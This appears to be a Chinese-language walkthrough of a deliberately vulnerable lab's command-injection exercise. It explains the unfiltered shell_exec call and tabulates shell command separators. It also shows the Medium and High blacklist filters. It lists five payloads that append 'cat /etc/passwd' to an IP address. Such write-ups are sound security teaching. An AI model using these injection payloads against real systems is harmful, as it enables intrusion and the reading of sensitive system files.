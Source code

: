 问题：直接将ip得到的值传给`shell_exec`，没有进行任何的过滤

直接上命令执行，利用命令连接符号

| 符号   | 说明                                                         |
| :----- | :----------------------------------------------------------- |
| A;B    | A 不论正确与否都会执行 B 命令                                |
| A&B    | A 后台运行，A 和 B 同时执行                                  |
| A&&B   | A 执行成功时候才会执行 B 命令                                |
| A\|B   | A 执行的输出结果，作为 B 命令的参数，A 不论正确与否都会执行 B 命令 |
| A\|\|B | A 执行失败后才会执行 B 命令                                  |

```php
127.0.0.1 ; cat /etc/passwd
127.0.0.1 & cat /etc/passwd
127.0.0.1 && cat /etc/passwd
127.0.0.1 | cat /etc/passwd
123456 || cat /etc/passwd
```

![image-20220324124345386](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203241244294.png)

###  Medium

```php
$substitutions = array(
  '&&' => '',
  ';'  => '',
); 

// 移除黑名单字符
$target = str_replace( array_keys( $substitutions ), $substitutions, $target );
```

只过滤两种，还是可以用上面的

###  High

```
$substitutions = array(
        '&'  => '',
        ';'  => '',
        '| ' => '',
        '-'  => '',
        '$'  => '',
        '('  => '',
        ')'  => '',
        '`'  => '',
        '||' => '',
    );
```
